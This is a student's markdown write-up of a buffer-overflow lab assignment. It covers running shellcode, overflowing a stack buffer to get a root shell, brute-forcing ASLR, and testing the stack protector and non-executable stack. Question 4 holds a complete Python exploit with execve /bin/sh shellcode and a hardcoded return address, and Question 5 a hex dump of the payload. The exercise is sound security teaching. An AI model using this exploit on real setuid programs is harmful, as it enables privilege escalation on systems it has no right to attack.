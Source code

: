 # Assignment 1

[TOC]

## Question 1

|collaborator name|NetID|
---|---
|Kevin|aa123|
|Shubham|bb345|

## Question 2

### what I did 

1. first I compile call_shellcode.c
2. then use `./call_shellcode.c`

### result

- I got a shell prompt `$` immediately after running the ELF
- using `whoami`, the user is the same as the user called `./call_shellcode.c`

## Question 3

### what I did

> I use python version of exploit script

1. Compiled stack.c which stack executable and no stack protector
2. Set D=36 in exploit.py in order to let function return to address we set
3. Debugged core dump file to get the address of shellcode on stack
4. Changed return address in exploit.py to the address of shellcode when program is running.
5. Ran exploit.py to generate "badfile", then ran stack

### resut

Got a root shell, but the actual uid of the process is still seed

![](media/15482980527608/15485306625642.jpg)



## Question 4

```python
#!/usr/bin/python3

import sys

shellcode= ( 
    "\x31\xc0"             # xorl    %eax,%eax              
    "\x50"                 # pushl   %eax                   
    "\x68""//sh"           # pushl   $0x68732f2f            
    "\x68""/bin"           # pushl   $0x6e69622f            
    "\x89\xe3"             # movl    %esp,%ebx              
    "\x50"                 # pushl   %eax                   
    "\x53"                 # pushl   %ebx                   
    "\x89\xe1"             # movl    %esp,%ecx              
    "\x99"                 # cdq                            
    "\xb0\x0b"             # movb    $0x0b,%al              
    "\xcd\x80"             # int     $0x80                  
    "\x00"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

#########################################################################
# Replace 0 with the correct offset value
D = 36
# Fill the return address field with the address of the shellcode
# Replace 0xFF with the correct value 
content[D+0] = 0x44   # fill in the 1st byte (least significant byte) 
content[D+1] = 0xEC   # fill in the 2nd byte 
content[D+2] = 0xFF   # fill in the 3rd byte
content[D+3] = 0xBF   # fill in the 4th byte (most significant byte)
#########################################################################

# Put the shellcode at the end
start = 517 - len(shellcode) 
content[start:] = shellcode 

# Write the content to badfile
file = open("badfile", "wb")
file.write(content)
file.close()
```

## Question 5

```binary

0000000 9090 9090 9090 9090 9090 9090 9090 9090
*
0000020 9090 9090 ec44 bfff 9090 9090 9090 9090
0000030 9090 9090 9090 9090 9090 9090 9090 9090
*
00001e0 9090 9090 9090 9090 9090 9090 c031 6850
00001f0 2f2f 6873 2f68 6962 896e 50e3 8953 99e1
0000200 0bb0 80cd 0000                         
0000205

```

## Question 6


- Before I insert new shellcode, only got a shell with `seed` as user.
- After inserting new shellcode, got a shell with root privilege.


![-w300](media/15482980527608/15485288720065.jpg)


Since SID gave the program approximate root privilege, with that, the program set its real user id to 0(root), then run dash.
When dash try to check if uid == sid, it'll be true, so the shell stay in root privilege.



## Question 7

With luck, I got shell after running 753 times.

The script keep running `stack`, it fails when the return address we wrote in exploit.py is wrong. Once the position of stack is good that the return address can work, got a shell.

![-w400](media/15482980527608/15485312188177.jpg)


## Question 8

- Compiled `stack_protect` without `-fno-stack-protector`
- Compiled `stack_no_protect` with it

Run both of them:
![-w400](media/15482980527608/15485326150617.jpg)

Running `stack_no_protect` got a shell proves `badfile` is valid. Got `stack smashing detected` when running `stack_protect`


## Question 9


- Compile `stack_exe` with execstack
- Compile `stack_noexe` with noexecstack

![-w350](media/15482980527608/15485318296527.jpg)

Got shell with `stack_exe`, this proves badfile is valid.
Got Segmentation fault when running `stack_noexe`.



